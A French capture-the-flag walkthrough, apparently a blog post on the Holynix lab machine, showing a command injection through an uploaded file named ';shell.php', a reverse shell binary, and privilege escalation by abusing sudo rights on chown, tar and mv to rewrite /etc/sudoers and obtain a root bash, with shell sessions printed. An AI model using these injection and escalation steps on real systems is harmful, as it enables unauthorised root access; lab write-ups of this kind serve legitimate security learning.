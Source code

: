 Donc ce script prend bêtement le nom du fichier, l'upload dans le dossier `/upload` mais le déplace aussitôt vers le dossier de l'utilisateur avec un `sudo mv` ce qui explique que je ne le retrouvais plus.

Il y a une faille d'injection de commande ici par conséquent si je casse la commande du `sudo mv` mon upload ne sera pas déplacé.

Pour cela j'ai uploadé mon shell avec le nom `;shell.php` et j'ai bien retrouvé le fichier dans `/upload`.

## J'ai merdé

Une fois uploadé et exécuté un `reverse-sshx86` (le système est 32 bits : `Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux`, `Ubuntu 8.04.4 LTS (hardy)`) je me suis penché sur ce qui autorisait l'utilisateur affecté au serveur web à lancer des commandes sudo :

```shellsession
www-data@holynix:/var/apache2/htdocs/upload$ sudo -l
User www-data may run the following commands on this host:
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /bin/chgrp
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /bin/mv
```

Mon idée a été d'exploiter l'autorisation de faire un `chown` pour ajouter une entrée à `/etc/sudoers` :

```shellsession
$ sudo /bin/chown www-data.www-data /etc/sudoers
$ chmod u+w /etc/sudoers
```

Par défaut `sudoers` est en mode 440 `donc` il faut modifier la permission pour l'éditer. J'ai rajouté `/bin/bash` à la suite des commandes autorisées :

`%www-data ALL = NOPASSWD: /bin/chown, /bin/chgrp, /bin/tar, /bin/mv, /bin/bash`

Ensuite je remet les permissions d'origine, sauf que :

```shellsession
$ chmod u-w /etc/sudoers
$ sudo /bin/chown root.root /etc/sudoers         
sudo: /etc/sudoers is owned by uid 33, should be 0
```

Héhéhé ! `sudo` ne veut pas s'exécuter car `sudoers` appartient à `www-data` à ce moment là !

## On la refait moins crispé

Cette fois je vais travailler sur une copie du `sudoers` pour éviter les bétises. `cp` n'est pas dans les commandes autorisées alors j'ai eu recours à `tar` pour faire une copie :

```shellsession
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/tar c /etc/sudoers > sudoers.tar
/bin/tar: Removing leading `/' from member names
www-data@holynix:/var/apache2/htdocs/upload$ ls
;shell.php  index.php  reverse-sshx86  sudoers.tar
www-data@holynix:/var/apache2/htdocs/upload$ tar xvf sudoers.tar 
etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ chmod u+w etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ vi etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ chmod u-w etc/sudoers 
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/chown root.root etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ ls -l etc/sudoers
-r--r----- 1 root root 768 Nov 18 09:58 etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/mv etc/sudoers /etc/sudoers
www-data@holynix:/var/apache2/htdocs/upload$ sudo /bin/bash
root@holynix:/var/apache2/htdocs/upload# id
```